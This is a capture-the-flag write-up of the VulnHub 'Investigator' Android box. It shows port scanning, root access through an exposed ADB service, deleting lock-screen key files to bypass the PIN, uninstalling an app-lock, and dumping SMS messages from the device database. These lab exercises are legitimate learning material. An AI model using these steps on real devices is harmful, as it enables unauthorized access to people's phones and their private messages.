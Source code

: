 ```yaml
---
title: Vulnhub - Investigator
description: My writeup on Investigator box.
categories:
 - vulnhub
tags: vulnhub android adb
---
```


![](https://hackersfun.com/wp-content/uploads/2019/03/evil-android.jpg)

Hi all, firstly i didnt want to try this box because i have no idea how to pentest/hack an android box. In real life i don't even use/have a smart phone but then i say to myself it's a great way to learn something new, so let's pwn it!

You can find the machine there > [Investigator](https://www.vulnhub.com/entry/investigator-1,504/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.10
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 01:52 EEST
Nmap scan report for android-25abe18209db8058.zte.com.cn (192.168.1.10)
Host is up (0.00025s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp  open  http    PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome To  UnderGround Sector
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)
MAC Address: 00:0C:29:37:42:7C (VMware)
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

port `5555` seems suspicious, i did some research on it and i found a way to exploit it. :)

port `5555` == adb service, adb (Android Debug Bridge) can control your device over USB or wireless by enabling a daemon server at port 5555.

Install adb: `sudo apt-get install adb`

## Exploiting adb service

Now let's exploit it, first we need to connect on target:

```
$ adb connect $ip:5555
connected to 192.168.1.10:5555
```

Now let's spawn a shell:

```
$ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ 
```

Bingo! That simple, we can even simplier take a root shell:

```
$ su
uid=0(root) gid=0(root)@x86:/ # 
```

Now because i have no idea how android file system is working, i decided to search for the root directory:

```
uid=0(root) gid=0(root)@x86:/ # find / -type d -name "root"
/data/root
```

We can see a `flag.txt` there:

```
uid=0(root) gid=0(root)@x86:/ # cd /data/root
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!! 

Itz a easy one right ???

lets make this one lil hard


You flag is not here  !!!     


Agent "S"   Your Secret Key ---------------->259148637
```

## Removing PIN - finding the real flag

Here i stuck, i was searching for the flag for loooot of hours & then i deleted the box i said OK i got root shell i can't find the real flag. Today i had a chat with a friend on this box and we both stuck finding the real flag, i told him that you can remove the pin using adb shell. After some minutes he found the real flag! Shout out to @Freakazoid without him i wasn't able to gain the real flag! :D

Now as you can see, the android box asks for a PIN:

![](https://i.imgur.com/5xnXKzl.png)

We can remove this using our root shell, simply do this:

```
uid=0(root) gid=0(root)@x86:/ # cd /data/system
uid=0(root) gid=0(root)@x86:/data/system # rm *.key
```

& reboot the box, now we can see there is no PIN:

![](https://i.imgur.com/uTqpowJ.png)

If we go to open an app asks for a pattern:

![](https://i.imgur.com/ecarBwa.png)

Probably there is an app in background, that locks the other apps, let's search for it and remove it:

```
$ adb connect $ip:5555                       
connected to 192.168.1.10:5555
$ adb shell su 0 pm list packages | grep lock
package:com.domobile.applockwatcher
package:bong.android.androidlock
package:com.martianmode.applock <---
package:com.android.deskclock
```

`com.martianmode.applock` seems interesting, let's remove it:

```
$ adb uninstall com.martianmode.applock 
Success
```

Now we can see the real flag in messages:

![](https://i.imgur.com/GNjkEeN.png)

I learnt some new stuff, fux box :)

## Update - Reading sms without physical access

There is a way to read sms (flag) without doing all these stuff ^ by accessing the `mmssms.db` :

```
uid=0(root) gid=0(root)@x86:/ # cd /data/data/com.android.providers.telephony/databases
uid=0(root) gid=0(root)@x86:/data/data/com.android.providers.telephony/databases # ls 
mmssms.db
mmssms.db-journal
telephony.db
telephony.db-journal
uid=0(root) gid=0(root)@x86:/data/data/com.android.providers.telephony/databases # sqlite3 mmssms.db
SQLite version 3.7.11 2012-03-20 11:35:50
Enter ".help" for instructions
Enter SQL statements terminated with a ";"
sqlite> .tables
addr                 pdu                  threads            
android_metadata     pending_msgs         words              
attachments          rate                 words_content      
canonical_addresses  raw                  words_segdir       
drm                  sms                  words_segments     
part                 sr_pending         
sqlite> select * from sms;
1|5|(999) 999-9999||1593664987923|0||0|-1|5|||Welcome to  investigator ||0|0|1
2|5|(999) 999-9999||1593665026053|0||0|-1|6|||Your flag is in next chat||0|0|1
3|5|(999) 999-9999||1593665043359|0||1|-1|6|||welcome to investigator||0|0|1
4|6|(888) 888-8888||1593665065317|0||1|-1|6|||welcome to investigator||0|0|1
5|6|(888) 888-8888||1593665072797|0||1|-1|6|||your flag is not here||0|0|1
6|6|(888) 888-8888||1593665074507|0||1|-1|6|||welcome to investigator||0|0|1
7|7|(777) 777-7777||1593665090987|0||1|-1|6|||welcome to investigator||0|0|1
8|7|(777) 777-7777||1593665097063|0||1|-1|6|||your flag is not  here||0|0|1
9|8|(666) 666-6666||1593665111714|0||1|-1|6|||welcome to investigator||0|0|1
10|8|(666) 666-6666||1593665300650|0||1|-1|6|||share your screen shot in  telegram ------------ telegram group link ------------->https://t.me/joinchat/MnPu-hwn_MMS5sX0jngsoQ||0|0|1
11|8|(666) 666-6666||1593665656730|0||1|-1|6|||if the above link is not working share your screenshot at twitter -------->twitter id ------->@sivanes90967948||0|0|1
12|8|(666) 666-6666||1593665672721|0||1|-1|6|||welcome to investigator||0|0|1
13|9|(555) 555-5555||1593665743201|0||1|-1|6|||welcome to investigator||0|0|1
14|9|(555) 555-5555||1593665748223|0||1|-1|6|||no flag||0|0|1
15|9|(555) 555-5555||1593665749432|0||1|-1|6|||welcome to investigator||0|0|1
16|10|(444) 444-4444||1593665764190|0||1|-1|6|||welcome to investigator||0|0|1
17|10|(444) 444-4444||1593665766008|0||1|-1|6|||no flag||0|0|1
```

Simple! :D

